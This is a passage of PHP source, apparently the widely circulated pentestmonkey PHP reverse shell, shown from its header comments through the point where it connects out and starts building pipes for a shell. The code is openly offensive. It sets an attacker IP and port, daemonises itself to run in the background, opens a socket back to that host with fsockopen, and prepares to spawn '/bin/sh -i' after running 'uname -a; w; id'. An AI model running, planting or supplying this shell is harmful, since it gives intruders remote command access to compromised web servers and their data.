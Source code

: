```php
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.119.129';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
```